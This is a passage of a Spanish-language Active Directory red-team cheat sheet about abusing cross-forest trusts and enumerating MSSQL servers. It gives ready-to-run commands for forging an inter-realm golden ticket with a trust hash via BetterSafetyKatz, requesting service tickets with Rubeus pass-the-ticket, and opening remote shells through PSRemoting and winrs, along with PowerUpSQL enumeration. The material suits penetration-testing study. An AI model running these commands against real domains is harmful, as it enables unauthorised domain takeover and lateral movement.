 En el ejemplo se tiene acceso DA a ``eu.local``. Para enumerar las confianzas:

````
Get-ADTrust -Filtro *
````

Si ``SIDFilteringForestAware`` está en ``True``, significa que SIDHistory está habilitado en todo el bosque de confianza.

```
# Obtener grupos en otro bosque con RID > 1000
Get-ADGroup -Filter 'SID -ge "S-1-5-21-<ID>-1000"' -Server <dominio_objetivo>
Ejemplo: Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
Get-ADGroup -Identity <NOMBRE_GRUPO> -Server <dominio_objetivo>
Ejemplo: Get-ADGroup -Identity EUAdmins -Server euvendor.local

# Generar inter-realm TGT using group
./BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<dominio_pwned> /sid:<sid_dominio_pwned> /rc4:<TRUST_TICKET_HASH> /service:krbtgt /target:<dominio_objetivo> /sids:<sid_dominio_objetivo>-<RID_objetivo> /ticket:<output_ticket.kirbi>" "exit"

# Obtener TGS para algun servicio
./Rubeus.exe asktgs /ticket:<output_ticket.kirbi> /service:HTTP/some_machine.other_forest.local /dc:some-dc.other_forest.local /ptt

# Acceso a la máquina euvendor-net mediante PSRemoting
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential

# Acceso a la máquina euvendor-net mediante winrs
winrs -r:euvendor-net.euvendor.local cmd
```

Para los ataques entre bosques, usar de preferencia el ``TRUST_TICKET_HASH`` en formato RC4 antes que AES. 
## MSSQL Server

Los servidores MSSQL suelen desplegarse en abundancia en un dominio Windows. Los servidores SQL ofrecen muy buenas opciones para el movimiento lateral, ya que permiten asignar usuarios de dominio a roles de base de datos y, de este modo, formar parte de las confianzas de AD.

Primero vamos a enumerar los enlaces a las bases de datos en todos los servidores sql, para ello solo necesitamos acceso público. Veamos si con el usuario actual se tiene acceso a alguna base de datos del dominio. Para ello se puede usar PowerUpSQL.

Los siguientes comandos entregará el nombre de la instancia, hostname en donde se encuentra la db, el actual inicio de sesión y demás información relevante:

```
### Enumerar instancias en el dominio actual
Get-SQLInstanceDomain
### Obtener información del servidor en donde se encuentran las instancias
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLServerInfo -Verbose
```
